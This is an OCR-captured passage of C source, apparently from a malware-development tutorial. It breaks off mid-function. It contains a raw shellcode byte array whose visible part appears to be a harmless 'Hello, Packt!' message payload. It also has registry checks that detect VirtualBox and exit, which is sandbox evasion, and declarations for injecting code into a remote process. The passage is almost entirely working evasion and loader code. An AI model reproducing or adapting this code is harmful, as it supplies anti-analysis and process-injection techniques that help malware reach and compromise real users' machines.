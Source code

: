 ```c 
"\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
"\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
"\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
"\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
"\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
"\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\xfe\x00\x00\x00\x3e"
"\x4c\x8d\x85\x0c\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
"\x56\x07\xff\xd5\x48\x31\xc9\x41\xba\xf0\xb5\xa2\x56\xff"
"\xd5\x48\x65\x6c\x6c\x6f\x2c\x20\x50\x61\x63\x6b\x74\x21"
"\x00\x3d\x5e\x2e\x2e\x5e\x3d\x00";

unsigned int myPayloadLen = sizeof(myPayload);

int checkRegistryKey(HKEY rootKey, char* subKeyName) {
  HKEY registryKey = nullptr;
  LONG result = RegOpenKeyExA(rootKey, subKeyName, 0, KEY_READ, &registryKey);
  if (result == ERROR_SUCCESS) {
    RegCloseKey(registryKey);
    return TRUE;
  }
  return FALSE;
}

int compareRegistryKeyValue(HKEY rootKey, char* subKeyName, char* registryValue, char* comparisonValue) {
  HKEY registryKey = nullptr;
  LONG result;
  char value[1024];
  DWORD size = sizeof(value);
  result = RegOpenKeyExA(rootKey, subKeyName, 0, KEY_READ, &registryKey);
  if (result == ERROR_SUCCESS) {
    RegQueryValueExA(registryKey, registryValue, NULL, NULL, (LPBYTE)value, &size);
    if (result == ERROR_SUCCESS) {
      if (strcmp(value, comparisonValue) == 0) {
        return TRUE;
      }
    }
  }
  return FALSE;
}

int main(int argc, char* argv[]) {
  HANDLE processHandle; // Process handle
  HANDLE remoteThread;  // Remote thread
  PVOID remoteBuffer;   // Remote buffer

  if (checkRegistryKey(HKEY_LOCAL_MACHINE, "HARDWARE\\ACPI\\FADT\\VBOX__")) {
    printf("VirtualBox VM registry path value detected :(\n");
    // return -2;
  }

  if (compareRegistryKeyValue(HKEY_LOCAL_MACHINE, "SYSTEM\\CurrentControlSet\\Control\\SystemInformation",
    "SystemProductName", "VirtualBox")) {
    printf("VirtualBox VM registry key value detected :(\n");
    // return -2;
  }

  if (compareRegistryKeyValue(HKEY_LOCAL_MACHINE, "SYSTEM\\CurrentControlSet\\Control\\SystemInformation",
    "BiosVersion", "VirtualBox")) {
    printf("VirtualBox VM BIOS version detected :(\n");
    return -2;
```